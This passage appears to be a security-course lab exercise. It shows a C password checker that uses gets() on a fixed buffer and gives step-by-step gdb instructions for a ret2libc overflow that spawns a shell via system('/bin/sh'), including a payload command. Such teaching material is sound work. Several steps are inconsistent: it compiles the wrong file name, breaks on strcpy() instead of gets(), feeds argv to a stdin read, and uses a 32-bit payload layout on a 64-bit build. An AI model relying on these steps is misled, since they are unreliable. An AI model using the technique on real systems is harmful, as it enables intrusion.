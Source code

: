 
## Exercise 1 - NX Bit

Consider the following `check.c` code:

```C
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv){
  char buf[50];
  puts("Input the secret password: ");
  gets(buf);
  
  if(!strcmp(buf, "SuperSecretPassword")){
    printf("Access Granted");
    return 1;
  }
  
  printf("Wrong Password!");
  return 0;
}
```
- Compile the code disabling every security measure but NX, with the command:
  - `gcc -m64 -fno-stack-protector -no-pie -Wl,-z,norelro overflow.c`
- Enter in a `gdb` session for the binary, run the `checksec` command to check the security measures
  - Is the stack an executable region? Are addresses randomized?
- Generate a pattern of 200 bytes with `pattern create 200`, we will use this to overwrite the `RBP`
  - Set a breakpoint to `strcpy()`, issue the input pattern with `r '[paste_patern]'`
  - Inspect the `RBP` register, get the offset value with `pattern offset [rbp_value]`
  - Add 8 bytes to the offset value, overwrite the `RIP` register with a canonical address.
    - Hint: the `r` command of `gdb` can take input from shell commands: $(command_here), can you use python to generate the string?
  - After controlling the `RIP`, since the stack is not executable, we will reach the function `system()` and pass `"/bin/sh"` to it.
    - Get the address of `system()` in `LIBC` by setting a breakpoint at `main()`, running the binary, then `p system`
    - Search in the `libc` memory for the `"/bin/sh"` string, with the command `find [system_address],+99999999,"/bin/sh"`
    - Run the command `r $(echo python2 -c "print 'A'*[offset+8]+[system_address]+'AAAA'+[/bin/sh_address]")`
  - Make the binary execute a shell by supplying the input string outside the debuuger.
